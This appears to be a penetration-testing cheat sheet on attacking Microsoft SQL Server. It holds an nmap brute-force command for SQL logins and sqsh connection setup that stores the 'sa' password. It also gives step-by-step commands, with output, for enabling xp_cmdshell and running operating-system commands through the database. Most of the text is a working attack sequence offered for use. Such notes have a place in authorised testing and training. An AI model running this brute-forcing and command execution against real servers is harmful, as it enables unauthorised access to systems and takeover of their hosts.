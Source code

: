 # MSSQL

## Broute Force Credentials

### <a href='https://nmap.org/nsedoc/scripts/ms-sql-brute.html' target="blank">File ms-sql-brute</a>

``` bash
nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt <host>
```

## Connection

### Add server

``` bash
$ cat /etc/freetds/freetds.conf
<snip>
[Pentest]
        host = <ip>
        port = 1433
```

### Connect with stored password

``` bash
$ cat ~/.sqshrc
\set username=sa
\set password=PASSWORD
\set style=vert
$ sqsh -S Pentest
1>
```

### Connect normal

``` bash
$ sqsh -S mssql -U sa
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
Password: 
1> \set style=vert
1>
```

## Execute commands

### Check Advanced Option

``` bash
1> EXEC sp_configure 'show advanced option';
2> go
name:         show advanced options
minimum:      0
maximum:      1
config_value: 0
run_value:    0
 
(return status = 0)
```

### Config xp_cmdshell if value =0

``` bash
1> EXEC sp_configure 'show advanced option', '1';
2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> RECONFIGURE WITH OVERRIDE;
2> go
1> EXEC sp_configure 'xp_cmdshell', 1;
2> go
Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> RECONFIGURE;
2> go
=== Recheck ===
1> EXEC sp_configure 'show advanced option';
2> go
name:         show advanced options
minimum:      0
maximum:      1
config_value: 1
run_value:    1
 
(return status = 0)
------
```

### Execute commands

``` bash
1> xp_cmdshell 'whoami';
2> go
output: nt service\mssql$sqlexpress

output: NULL

(2 rows affected, return status = 0)
```